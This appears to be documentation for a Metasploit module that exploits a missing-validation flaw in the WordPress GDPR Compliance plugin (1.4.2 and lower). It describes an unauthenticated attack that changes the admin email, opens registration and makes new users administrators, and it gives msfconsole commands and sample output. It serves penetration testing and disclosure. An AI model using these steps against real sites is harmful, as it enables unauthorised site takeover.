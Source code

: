 ## Description

  This module exploits the Wordpress GDPR compliance plugin lack of validation (WPVDB 9144), which affects versions 1.4.2 and lower.

  When a user triggers GDPR-related actions, Wordpress's admin-ajax.php is called but fails to do validation and capacity checks regarding the asked actions.
  This leads to any unauthenticated user being able to modify any arbitrary settings on the targeted server. 

  This module changes the admin email to prevent notification sending, enables new user registration and changes the default role of new users to Administrator. The attacker is then able to simply create a new privileged user, then log in and take any actions on the newly compromised site.

## Vulnerable Application

  Any Wordpress installation with the GDPR Compliance plugin <= 1.4.2.

  You can download the vulnerable application here: https://downloads.wordpress.org/plugin/wp-gdpr-compliance.1.4.2.zip

## Verification Steps

  Example steps in this format:

  1. Install the application
  1. Start msfconsole
  1. Do: `use auxiliary/admin/http/wp_gdpr_compliance_privilege_escalation`
  1. Do: `set RHOST [wp host]`
  1. Do: `set RPORT [wp port]`
  1. Do: `run`
  1. Go to the Wordpress registering page, register as an administrator, profit.

## Scenarios


Example run against WordPress GDPR Compliance plugin 1.4.2:
```
[*] Getting security token from host...
[*] Changing admin e-mail address to random@email.com...
[*] Enabling user registrations...
[*] Setting the default user role...
[+] Privilege escalation complete
[+] Create a new account at [url]/wp-login.php/?action=register to gain admin access.
[*] Auxiliary module execution completed
```
